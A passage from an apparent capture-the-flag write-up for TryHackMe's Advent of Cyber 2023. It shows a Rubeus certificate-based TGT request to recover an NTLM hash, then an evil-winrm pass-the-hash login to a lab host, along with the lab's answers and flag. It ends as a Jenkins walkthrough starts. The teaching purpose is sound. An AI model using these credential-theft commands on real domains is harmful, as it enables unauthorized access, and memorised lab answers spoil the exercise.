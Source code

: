 **Note**: Add a `.\` before the tool name when copy-pasting the command that was generated by `Whisker`

```powershell
.\Rubeus.exe asktgt /user:vansprinkles /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH... /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

![AD|440](images/thm-aoc-2023-day-9-12/ad-4.png)

Once the session for the user has been generated using the NTLM hash we can use a pass-the-hash attack to log into the user's device. 

The next step needs to be performed from the Linux VM (Attack Box).

```bash
evil-winrm -i 10.10.165.189 -u vansprinkles -H 03E805D8A8C5AA435FB48832DAD620E3
```

![AD|640](images/thm-aoc-2023-day-9-12/ad-5.png)

If the command was successful we should get access into the system.

### Questions

**1. What is the hash of the vulnerable user?**

> 03E805D8A8C5AA435FB48832DAD620E3

**2. What is the content of flag.txt on the Administrator Desktop?**

We can navigate into the Desktop of the Administrator to look for the flag.

![AD|360](images/thm-aoc-2023-day-9-12/ad-6.png)

> THM{XMAS_IS_SAFE}

The directory also contains some `chatlog_files` which is a hint for the AOC 2023 Side Quests challenge.

## \[Day 12\] Sleighing Threats, One Layer at a Time

### Learning Objectives

- Defense in Depth
- Basic Endpoint Hardening
- Simple Boot2Root Methodology

### Walkthrough

In this challenge, we will be trying to break into a system, find its weaknesses and then use the Defense in Depth framework to patch the discovered vulnerabilities.

The target system is running Jenkins. We can connect to its UI using the web browser.

```
http://10.10.165.84:8080
```
